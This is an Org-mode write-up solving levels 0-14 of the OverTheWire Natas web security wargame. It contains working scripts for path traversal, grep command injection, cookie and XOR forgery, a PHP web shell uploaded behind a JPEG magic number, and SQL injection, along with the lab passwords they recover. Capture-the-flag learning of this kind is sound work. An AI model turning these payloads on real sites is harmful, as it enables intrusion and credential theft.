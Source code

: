 #+TITLE: Natas (OverTheWire)
#+AUTHOR: Bryan Rinders
#+DATE: <2023-02-24 Fri>
#+OPTIONS: num:nil
#+PROPERTY: header-args :results output :exports both :eval never-export
#+PROPERTY: header-args:python :session *natas-python-session*

* Introduction
:PROPERTIES:
:CUSTOM_ID: introduction
:END:
{{{date([%Y-%m-%d])}}}

This is a writeup for the [[https://overthewire.org/wargames/][overthewire.org]] war game Natas. To start a
level visit the URL http://natasX.natas.labs.overthewire.org, and
login with username: =natasX= and the password found in the previous
level, where =X= is the level number. All passwords for the next level
are also stored in /etc/natas_webpass/natasX, where X is the number of
the level.

In the scripts below =PASS_NATASX= is the password for level =X= as
found in the previous level.

* Level 0
:PROPERTIES:
:CUSTOM_ID: level-0
:END:
View the source page and find the password:

#+NAME: lvl0
#+BEGIN_SRC sh
  curl -u natas0:natas0 "http://natas0.natas.labs.overthewire.org/" | grep natas1
#+END_SRC

#+RESULTS: lvl0
: <!--The password for natas1 is g9D9cREhslqBKtcA2uocGHPfMZVzeFK6 -->

#+NAME: pass1
#+begin_src sh :var pass=lvl0 :exports none
  echo $pass | cut -d ' ' -f 6
#+end_src

#+RESULTS: pass1
: g9D9cREhslqBKtcA2uocGHPfMZVzeFK6

* Level 1
:PROPERTIES:
:CUSTOM_ID: level-1
:END:
View the source page by using a short cut key (for me =Ctrl+u=):

#+NAME: lvl1
#+BEGIN_SRC sh :var PASS_NATAS1=pass1
  curl -u natas1:"${PASS_NATAS1}" "http://natas1.natas.labs.overthewire.org/" | grep natas2
#+END_SRC

#+RESULTS: lvl1
: <!--The password for natas2 is h4ubbcXrWqsTo7GGnnUMLppXbOogfBZ7 -->

#+NAME: pass2
#+begin_src sh :var pass=lvl1 :exports none
  echo $pass | cut -d ' ' -f 6
#+end_src

#+RESULTS: pass2
: h4ubbcXrWqsTo7GGnnUMLppXbOogfBZ7

* Level 2
:PROPERTIES:
:CUSTOM_ID: level-2
:END:
Again view the source page. There is a line with a link to an image

#+BEGIN_SRC
<img src="files/pixel.png">
#+END_SRC

This links to @@html:<a
href="http://natas2.natas.labs.overthewire.org/files/pixel.png">
http://natas2.natas.labs.overthewire.org/files/pixel.png</a>@@,
note the =/files/pixels.png=. Which means it might be possible to
explorer the =/files= directory. Exploring
"http://natas2.natas.labs.overthewire.org/files/" it shows that there
it another file called =users.txt= which contains the password for the
next level.

#+NAME: lvl2
#+BEGIN_SRC sh :var PASS_NATAS2=pass2
  curl -u natas2:"${PASS_NATAS2}" "http://natas2.natas.labs.overthewire.org/files/users.txt" | grep natas3
#+END_SRC

#+RESULTS: lvl2
: natas3:G6ctbMJ5Nb4cbFwhpMPSvxGHhQ7I6W8Q

#+NAME: pass3
#+begin_src sh :var pass=lvl2 :exports none
  echo "${pass}" | cut -d : -f 2
#+end_src

#+RESULTS: pass3
: G6ctbMJ5Nb4cbFwhpMPSvxGHhQ7I6W8Q

* Level 3
:PROPERTIES:
:CUSTOM_ID: level-3
:END:
View the source and find the line

#+BEGIN_SRC
<!-- No more information leaks!! Not even Google will find it this time... -->
#+END_SRC

which hints at the =robots.txt= file that contains the directories
webcrawlers are not supossed to visit. From the =robots.txt= we get
the directory =/s3cr3t/= which contains the =users.txt= file with the
password for natas4.

#+NAME: lvl3
#+BEGIN_SRC sh :var PASS_NATAS3=pass3
curl -u natas3:"${PASS_NATAS3}" "http://natas3.natas.labs.overthewire.org/s3cr3t/users.txt" | grep natas4
#+END_SRC

#+RESULTS: lvl3
: natas4:tKOcJIbzM4lTs8hbCmzn5Zr4434fGZQm

#+NAME: pass4
#+begin_src sh :var pass=lvl3 :exports none
  echo "${pass}" | cut -d : -f 2
#+end_src

#+RESULTS: pass4
: tKOcJIbzM4lTs8hbCmzn5Zr4434fGZQm

* Level 4
:PROPERTIES:
:CUSTOM_ID: level-4
:END:
NOTE: from level 4 and onwards the code snippets are written in
=Python= unless otherwise specified.

To get access to the password we need to come from the natas5 website as is
metioned on the website when first loging in.

#+BEGIN_SRC
Access disallowed. You are visiting from "" while authorized users should come
only from "http://natas5.natas.labs.overthewire.org/"
#+END_SRC

It is possible to simulate this by setting the *referer* in the header of the get
request to the natas5 website.

First import some libraries and define a function that can find the
password in the raw html text these will be used throughout the
levels:

#+NAME: imports
#+begin_src python :results none :export code
  import requests
  from requests.auth import HTTPBasicAuth
  import re
#+end_src

#+NAME: findpswd
#+BEGIN_SRC python :results none :exports code
  def find_pswd(text):
      """ Find the line with the password in the html text. """
      lines = text.split('\n')
      bools = list(map(lambda x : "password" in x, lines))
      for (b,line) in zip(bools,lines):
          if b:
              return line
#+END_SRC

Lets also define a function that will return the user and the url that
we will need for every level.

#+begin_src python :results none :exports code
  def user_url(lvl: int):
      """ Return the user name and url for LVL. """
      user = "natas" + str(lvl)
      url = f"http://natas{lvl}.natas.labs.overthewire.org/"
      return user, url
#+end_src

Now the code that changes the referer to natas5:

#+NAME: lvl4
#+BEGIN_SRC python :var PASS_NATAS4=pass4
  user, url = user_url(4)
  headers = {'referer': 'http://natas5.natas.labs.overthewire.org/'}

  # get request with the referer set to natas5
  r = requests.get(url, headers=headers, auth=HTTPBasicAuth(user,PASS_NATAS4))

  print(find_pswd(r.text))
#+END_SRC

#+RESULTS: lvl4
: Access granted. The password for natas5 is Z0NsrtIkJoKALBCLi5eqFfcRN82Au2oD

#+NAME: pass5
#+BEGIN_SRC sh :var pass=lvl4 :exports none
  echo "${pass}" | cut -d ' ' -f 8
#+END_SRC

#+RESULTS: pass5
: Z0NsrtIkJoKALBCLi5eqFfcRN82Au2oD

* Level 5
:PROPERTIES:
:CUSTOM_ID: level-5
:END:
After logging in the web page shows:

#+BEGIN_SRC
Access disallowed. You are not logged in
#+END_SRC

Lets inspect the headers to see what is happening

#+NAME: lvl5.1
#+BEGIN_SRC python :var PASS_NATAS5=pass5
  user, url = user_url(5)

  r = requests.get(url, auth=HTTPBasicAuth(user, PASS_NATAS5))
  print(r.headers)
#+END_SRC

#+RESULTS: lvl5.1
: {'Date': 'Wed, 22 Feb 2023 14:54:38 GMT', 'Server': 'Apache/2.4.52 (Ubuntu)', 'Set-Cookie': 'loggedin=0', 'Vary': 'Accept-Encoding', 'Content-Encoding': 'gzip', 'Content-Length': '368', 'Keep-Alive': 'timeout=5, max=100', 'Connection': 'Keep-Alive', 'Content-Type': 'text/html; charset=UTF-8'}

The output show that the the Set-cookie =loggedin=0=, if that is
changed to =loggedin=1= then that should give access to the password.

#+NAME: lvl5.2
#+BEGIN_SRC python :var PASS_NATAS5=pass5
  user, url = user_url(5)
  cookies = {'loggedin': '1'}

  # get request with the cookie set loggedin=1
  r = requests.get(url, cookies=cookies, auth=HTTPBasicAuth(user, PASS_NATAS5))
  print(find_pswd(r.text))
#+END_SRC

#+RESULTS: lvl5.2
: Access granted. The password for natas6 is fOIvE0MDtPTgRhqmmvvAOt2EfXR6uQgR</div>

#+NAME: pass6
#+BEGIN_SRC sh :var pass=lvl5.2 :exports none
  echo "${pass}" | cut -d ' ' -f 8 | sed "s|</div>||"
#+END_SRC

#+RESULTS: pass6
: fOIvE0MDtPTgRhqmmvvAOt2EfXR6uQgR

* Level 6
:PROPERTIES:
:CUSTOM_ID: level-6
:END:
After logging in we are prompted to input a secret. The page source
contains the line:

#+BEGIN_SRC
<div id="viewsource"><a href="index-source.html">View sourcecode</a></div>
#+END_SRC

Then going to the url
http://natas6.natas.labs.overthewire.org/index-source.html
contains:

#+BEGIN_SRC
include "includes/secret.inc";
#+END_SRC

follow this to the url
http://natas6.natas.labs.overthewire.org/includes/secret.inc, which
reveals the secret: =FOEIUWGHFEEUHOFUOIU=

#+NAME: lvl6
#+BEGIN_SRC python :var PASS_NATAS6=pass6
  user, url = user_url(6)
  post_data = {"secret": "FOEIUWGHFEEUHOFUOIU", "submit": "submit"}

  r = requests.post(url, auth=HTTPBasicAuth(user, PASS_NATAS6), data=post_data)

  print(find_pswd(r.text))
#+END_SRC

#+RESULTS: lvl6
: Access granted. The password for natas7 is jmxSiH3SP6Sonf8dv66ng8v1cIEdjXWr

#+NAME: pass7
#+BEGIN_SRC sh :var pass=lvl6 :exports none
  echo "${pass}" | cut -d ' ' -f 8
#+END_SRC

#+RESULTS: pass7
: jmxSiH3SP6Sonf8dv66ng8v1cIEdjXWr

* Level 7
:PROPERTIES:
:CUSTOM_ID: level-7
:END:
The source page says:

#+BEGIN_SRC
<!-- hint: password for webuser natas8 is in /etc/natas_webpass/natas8 -->
#+END_SRC

and there are two links, =Home= and =About=. When you click on =Home=
or =About= the url changes to =/index.php?page=Home= and
=/index.php?page=About= respectively. Changing either =Home= or =About=
with the path to the password file will give access to the password,
i.e. =/index.php?page=/etc/natas_webpass/natas8=. This is know as a
*path traversal attack*.

#+NAME: lvl7
#+BEGIN_SRC python :var PASS_NATAS7=pass7
user, url = user_url(7)
pswd = "7z3hEENjQtflzgnT29q7wAvMNfZdh0i9"
path = "/index.php?page=/etc/natas_webpass/natas8"

# get request with the referer set to natas5
r = requests.post(url+path, auth=HTTPBasicAuth(user,PASS_NATAS7))

print(r.text.split('\n')[-7])
#+END_SRC

#+RESULTS: lvl7
: a6bZCNYwdKqN5cGP11ZdtPg0iImQQhAB

* Level 8
:PROPERTIES:
:CUSTOM_ID: level-8
:END:
The source page again has a link to:

#+BEGIN_SRC
index-source.html
#+END_SRC

which reveals an encoded secret:

#+BEGIN_SRC
3d3d516343746d4d6d6c315669563362
#+END_SRC

#+RESULTS:

it is encoded with this function:

#+BEGIN_SRC
function encodeSecret($secret) {
    return bin2hex(strrev(base64_encode($secret)));
}
#+END_SRC

All we need to do is reverse this function on the given encoded secret:

#+NAME: lvl8.1
#+BEGIN_SRC python :var PASS_NATAS=lvl7
  from base64 import b64decode

  secret = "3d3d516343746d4d6d6c315669563362"

  # convert hex to binary
  binary_secret = bin(int(secret, 16))

  # convert the bits to a string of chars
  char_secret = ''.join(chr(int(binary_secret[i*8:i*8+8],2)) for i in range(len(binary_secret)//8))

  # reverse the string
  reverse_secret  = char_secret[::-1]

  # base64 decode the string
  decoded_secret = b64decode(reverse_secret).decode("ascii")
  print("The decoded secret is: " + decoded_secret)
#+END_SRC

#+RESULTS: lvl8.1
: The decoded secret is: oubWYf2kBq

#+NAME: decoded_secret
#+BEGIN_SRC sh :var decoded_secret=lvl8.1 :exports none
  echo "${decoded_secret}" | cut -d ' ' -f 5
#+END_SRC

#+RESULTS: decoded_secret
: oubWYf2kBq

Now we can POST the =DECODED_SECRET:= src_sh[:var s=decoded_secret
:results output :exports results]{echo "$s" | cut -d ' ' -f 5}
{{{results(=oubWYf2kBq=)}}}, to get the password.

#+NAME: lvl8.2
#+BEGIN_SRC python :var DECODED_SECRET=decoded_secret PASS_NATAS8=lvl7
  user, url = user_url(8)
  post_data = {"secret": DECODED_SECRET, "submit": "submit"}

  # get request with the referer set to natas5
  r = requests.post(url, auth=HTTPBasicAuth(user, PASS_NATAS8), data=post_data)

  print(find_pswd(r.text))
#+END_SRC

#+RESULTS: lvl8.2
: Access granted. The password for natas9 is Sda6t0vkOPkM8YeOZkAGVhFoaplvlJFd

#+NAME: pass9
#+BEGIN_SRC sh :var pass=lvl8.2 :exports none
  echo "${pass}" | cut -d ' ' -f 8
#+END_SRC

#+RESULTS: pass9
: Sda6t0vkOPkM8YeOZkAGVhFoaplvlJFd

* Level 9
:PROPERTIES:
:CUSTOM_ID: level-9
:END:
On the site there is a search box that searches for words. Trying out
some words in the search box shows that it actual does find all words
containing the searched string. Inspecting the source reveals this
piece of code:

#+BEGIN_SRC
if($key != "") {
    passthru("grep -i $key dictionary.txt");
}
#+END_SRC

So it is using =grep= to find results from =dictionary.txt=, but
=grep= allows for multiple input files to search in and so if we input
an extra file into the search box then it will search that file as
well as =dictionary.txt=. The file we want to include in the submit
box is =etc/natas_webpass/natas10=, the file that holds the password
for the next level.

#+NAME: lvl9
#+BEGIN_SRC python :var PASS_NATAS9=pass9
  user, url = user_url(9)
  post_data = {"needle": "'' /etc/natas_webpass/natas10", "submit": "submit"}

  r = requests.post(url, auth=HTTPBasicAuth(user, PASS_NATAS9), data=post_data)

  # use regex to find the password
  print(re.findall('/etc/natas_webpass/natas10:(.*)', r.text)[0])
#+END_SRC

#+RESULTS: lvl9
: D44EcsFkLxPIkAAKLosx8z3hxX1Z4MCE

* Level 10
:PROPERTIES:
:CUSTOM_ID: level-10
:END:
This level is similar to the previous level but it checks if there are
"illegal" characters in the input.

#+BEGIN_SRC
if($key != "") {
    if(preg_match('/[;|&]/',$key)) {
        print "Input contains an illegal character!";
    } else {
        passthru("grep -i $key dictionary.txt");
    }
}
#+END_SRC

From the regular expression in 'preg_match' the illegal characters are
=;= and =&=. Since those characters weren't used in the previous level
it is possible to re-use the 'needle' from level 9.

#+NAME: lvl10
#+BEGIN_SRC python :var PASS_NATAS10=lvl9
user, url = user_url(10)
post_data = {"needle": "'' /etc/natas_webpass/natas11", "submit": "submit"}

r = requests.post(url, auth=HTTPBasicAuth(user, PASS_NATAS10), data=post_data)

print(re.findall('/etc/natas_webpass/natas11:(.*)', r.text)[0])
#+END_SRC

#+RESULTS: lvl10
: 1KFqoJXi6hRaPluAmk8ESDW4fSysRoIg

* Level 11
:PROPERTIES:
:CUSTOM_ID: level-11
:END:
** Intro
:PROPERTIES:
:CUSTOM_ID: level-11-intro
:END:
From the source code, these are the most important
functions/variables:

#+BEGIN_SRC
$defaultdata = array( "showpassword"=>"no", "bgcolor"=>"#ffffff");

function xor_encrypt($in) {
    $key = '<censored>';
    $text = $in;
    $outText = '';

    // Iterate through each character
    for($i=0;$i<strlen($text);$i++) {
        $outText .= $text[$i] ^ $key[$i % strlen($key)];
    }

    return $outText;
}

function saveData($d) {
    setcookie("data", base64_encode(xor_encrypt(json_encode($d))));
}
#+END_SRC

The =xor_encrypt()= function simply encrypts the input with a censored
key. And the =saveData()= creates a cookie from the
=$defaultdata=. The first thing to do is get a cookie. With this
cookie and the =defaultdata= it is possible to exploit a property of
the xor function, namely: =plaintext ^ key = ciphertext= (where =^= is
the xor function) can be rewritten to solve for the key like
=plaintext ^ ciphertext = key=. Hence we can find the key with
~plaintext = $defaultdata~ and ~ciphertext = cookie~.

** Get the cookie (cipher text)
:PROPERTIES:
:CUSTOM_ID: get-the-cookie-(cipher-text)
:END:
So lets get a cookie:

#+NAME: lvl11.1
#+BEGIN_SRC python :var PASS_NATAS11=lvl10
  user, url = user_url(11)
  data = {"bgcolor": "#000000", "submit": "Set color"}

  r = requests.post(url, auth=HTTPBasicAuth(user, PASS_NATAS11), data=data)

  print(r.headers)
#+END_SRC

#+RESULTS: lvl11.1
: {'Date': 'Wed, 22 Feb 2023 17:18:39 GMT', 'Server': 'Apache/2.4.52 (Ubuntu)', 'Set-Cookie': 'data=MGw7JCQ5OC04PT8jOSpqdmkgJ25nbCorKCEkIzlscm5ofnh8e354bjY%3D', 'Vary': 'Accept-Encoding', 'Content-Encoding': 'gzip', 'Content-Length': '486', 'Keep-Alive': 'timeout=5, max=100', 'Connection': 'Keep-Alive', 'Content-Type': 'text/html; charset=UTF-8'}

The =Set-Cookie= value is what we are looking for.

#+NAME: lvl11.2
#+begin_src python
  cookie = r.headers['Set-Cookie'][5:]
  print(f'The cookie is: {cookie}')
#+end_src

#+RESULTS: lvl11.2
: The cookie is: MGw7JCQ5OC04PT8jOSpqdmkgJ25nbCorKCEkIzlscm5ofnh8e354bjY%3D

This cookie is url encode as can be seen by the =%3D= at the end. Lets
decode it:

#+NAME: lvl11.3
#+BEGIN_SRC python
from urllib.parse import unquote

url_decoded_cookie = unquote(cookie)
print(f'The url decoded cookie is:\n{url_decoded_cookie}')
#+END_SRC

#+RESULTS: lvl11.3
: The url decoded cookie is:
: MGw7JCQ5OC04PT8jOSpqdmkgJ25nbCorKCEkIzlscm5ofnh8e354bjY=

The === show that the decoded cookie is likely base 64 encoded, let
decode it.

#+NAME: lvl11.4
#+begin_src python
  from base64 import b64decode

  base64_decoded_cookie = b64decode(url_decoded_cookie).hex()
  print(f'The cookie/cipher text in hex is:\n{base64_decoded_cookie}')
#+end_src

#+RESULTS: lvl11.4
: The cookie/cipher text in hex is:
: 306c3b242439382d383d3f23392a6a766920276e676c2a2b28212423396c726e687e787c7b7e786e36

** Get the plain text
:PROPERTIES:
:CUSTOM_ID: get-the-plain-text
:END:
Now to get the plaintext that is used in the =xor_encrypt()= json
encode the =defaultdata= first.

#+NAME: lvl11.5
#+BEGIN_SRC php :results output :exports both :eval never-export
// this is php code:
$defaultdata = array( "showpassword"=>"no", "bgcolor"=>"#ffffff");
json_encode($defaultdata);
echo (json_encode($defaultdata));
#+END_SRC

#+RESULTS: lvl11.5
: {"showpassword":"no","bgcolor":"#ffffff"}

** Find the encryption key
:PROPERTIES:
:CUSTOM_ID: find-the-encryption-key
:END:
Now use the plain and cipher text in a slightly rewritten
=xor_encrypt()= to find the key.

#+NAME: lvl11.6
#+BEGIN_SRC php :results output :exports both :eval never-export
// this is php code:
$defaultdata = array( "showpassword"=>"no", "bgcolor"=>"#ffffff");

function xor_encrypt($in, $key) {
    $text = $in;
    $outText = '';

    // Iterate through each character
    for($i=0;$i<strlen($text);$i++) {
        $outText .= $text[$i] ^ $key[$i % strlen($key)];
    }

    return $outText;
}

$plain = json_encode($defaultdata);
$cipher = hex2bin('0a554b221e00482b02044f2503131a70531957685d555a2d12185425035502685247087a414708680c');

echo ('The key is: ' . xor_encrypt($plain, $cipher));

#+END_SRC

#+RESULTS: lvl11.6
: The key is: qw8Jqw8Jqw8Jqw8Jqw8Jqw8Jqw8Jqw8Jq!n'!nJq

There is a pattern in the key which means that the key that was used
is the substring =qw8J=.

** Get the password for natas12
:PROPERTIES:
:CUSTOM_ID: get-the-password-for-natas12
:END:
To get the password change the =showpassword= value from the array
=$defaultdata= to "yes". Then encrypt the array with the key
=qw8J=. This will result in the value that should be send as the
cookie and will give the password.

#+NAME: lvl11.7
#+BEGIN_SRC php :results output :exports both :eval never-export
// this is php code:
$defaultdata = array( "showpassword"=>"yes", "bgcolor"=>"#ffffff");

function xor_encrypt($in, $key) {
    $text = $in;
    $outText = '';

    // Iterate through each character
    for($i=0;$i<strlen($text);$i++) {
        $outText .= $text[$i] ^ $key[$i % strlen($key)];
    }

    return $outText;
}

$plain = json_encode($defaultdata);
$key = 'qw8J';

echo ('The cipher text is: ' . base64_encode(xor_encrypt($plain, $key)));

#+END_SRC

#+RESULTS: lvl11.7
: The cipher text is: ClVLIh4ASCsCBE8lAxMacFMOXTlTWxooFhRXJh4FGnBTVF4sFxFeLFMK

Use the just computed cipher text as the cookie and send a get request
with the cookie attached. This will show the password for Natas 12.

#+NAME: lvl11.8
#+BEGIN_SRC python :var PASS_NATAS11=lvl10
  user, url = user_url(11)
  data = {"bgcolor": "#000000", "submit": "Set color"}
  cookies = {'data': 'ClVLIh4ASCsCBE8lAxMacFMOXTlTWxooFhRXJh4FGnBTVF4sFxFeLFMK'}

  # get request with the referer set to natas5
  r = requests.get(url, cookies=cookies, auth=HTTPBasicAuth(user, PASS_NATAS11))

  print(re.findall('The password for natas12 is (.*)<br>', r.text)[0])
#+END_SRC

#+RESULTS: lvl11.8
: EDXp0pS26wLKHZy1rDBPUZk0RKfLGIR3

* Level 12
:PROPERTIES:
:CUSTOM_ID: level-12
:END:
The webpage asks for .jpg files to be uploaded. After uploading a
picture a link is given to the location, =upload/<randomstring>.jpg=,
of the uploaded file. I tried a few path traversal attacks,
e.g. =/upload/../etc/natas_webpass/natas13=, but all failed. So maybe
it is possible to upload some malicious php code instead of a jpg.

Create a php file called =evil.php= that contains:
#+BEGIN_SRC
<?php echo (file_get_contents('/etc/natas_webpass/natas13')); ?>
#+END_SRC
This will print the password for natas13.

Now the python script that uploads =evil.php= to the website and gets
the randon link to the uploaded file location, which should contain
the password for natas13.

#+NAME: lvl12.1
#+BEGIN_SRC python :var PASS_NATAS12=lvl11.8
  user, url = user_url(12)

  evil = {'uploadedfile': open('/home/br/Pictures/shots/evil.php', 'rb')}

  r = requests.post(url, auth=HTTPBasicAuth(user, PASS_NATAS12), files=evil, data={'filename': 'evil.php'})

  path = re.findall('href="(upload/.*.php)">', r.text)[0]
  print(f'The path to our uploaded file: {path}')
#+END_SRC

#+RESULTS: lvl12.1
: The path to our uploaded file: upload/tdxpbrtuna.php

#+NAME: lvl12.2
#+BEGIN_SRC python :var PASS_NATAS12=lvl11.8
  r1 = requests.get(url+path, auth=HTTPBasicAuth(user, PASS_NATAS12))
  # The password for natas13:
  print(r1.text)
#+END_SRC

#+RESULTS: lvl12.2
: jmLTY0qiPZBbaKc9341cqPQZBJv7MQbY

* Level 13
:PROPERTIES:
:CUSTOM_ID: level-13
:END:
This level is similar to level 12 but it uses =exif_imagetype= to
check if the file being uploaded is actually an image. It does this by
checking the *magic number* at the beginning of the file. So if we can
insert this /magic number/ to the beginning of our php script than it
will pass the =exif_imagetype= check will the server will execute the
contents of the file. We will insert the /magic number/ by letting
python write it to the file in bytes. The rest of the attack is very
similar to level 12. The /magic number/ is =\xFF\xD8\xFF\xE0=.

#+NAME: lvl13.1
#+BEGIN_SRC python :var PASS_NATAS13=lvl12.2
  user, url = user_url(13)

  # write the magic number and the to be executed php to evilFile
  evilFile = '/home/br/Pictures/shots/evil3.php'
  fh = open(evilFile, 'wb')
  fh.write(b'\xFF\xD8\xFF\xE0' + b'<? passthru($_GET["cmd"]); ?>')
  fh.close()

  evil = {'uploadedfile': open(evilFile, 'rb')}

  # Post the evilFile to the server
  r = requests.post(url, auth=HTTPBasicAuth(user, PASS_NATAS13), files=evil, data={'filename': 'evil3.php'})

  path = re.findall('href="(upload/.*.php)">', r.text)[0]
  print(f'The path to our uploaded file: {path}\n')
#+END_SRC

#+RESULTS: lvl13.1
: The path to our uploaded file: upload/4ttajmtyw5.php

#+NAME: lvl13.2
#+BEGIN_SRC python :var PASS_NATAS13=lvl12.2
  r1 = requests.get(url+path+'?cmd=cat /etc/natas_webpass/natas14', auth=HTTPBasicAuth(user, PASS_NATAS13))
  # The password for natas13
  print(r1.text[4:])
#+END_SRC

#+RESULTS: lvl13.2
: Lg96M10TdfaPyVBkJdjymbllQ5L6qdl1

* Level 14
:PROPERTIES:
:CUSTOM_ID: level-14
:END:
This level has a login form. The source code reveals the use of very
simple sql queries, which means we could try some [[https://en.wikipedia.org/wiki/SQL_injection#Incorrectly_constructed_SQL_statements][sql injections]]. The
very first try immediately worked, supplying ~" or 1=1 --~ for both
the username and the password.

#+NAME: lvl14
#+BEGIN_SRC python :var PASS_NATAS14=lvl13.2
  user, url = user_url(14)
  data = {'username': '" or 1=1 --', 'password': '" or 1=1 --'}

  r = requests.post(url, auth=HTTPBasicAuth(user, PASS_NATAS14), data=data)

  print(re.findall('password for natas15 is (.*)<br>', r.text)[0])

#+END_SRC

#+RESULTS: lvl14
: AwWj0w5cvxrZiONgZ9J5stNVkmxdk39J

* COMMENT Level 15
:PROPERTIES:
:CUSTOM_ID: level-15
:END:

#+BEGIN_SRC python :var PASS_NATAS15=lvl14
  user, url = user_url(15)
  data = {'username': '" or 1=1 --', 'password': '" or 1=1 --'}

  r = requests.post(url, auth=HTTPBasicAuth(user,pswd), data=data)

  print(r.text)

  # print(re.findall('password for natas15 is (.*)<br>', r.text)[0])

#+END_SRC
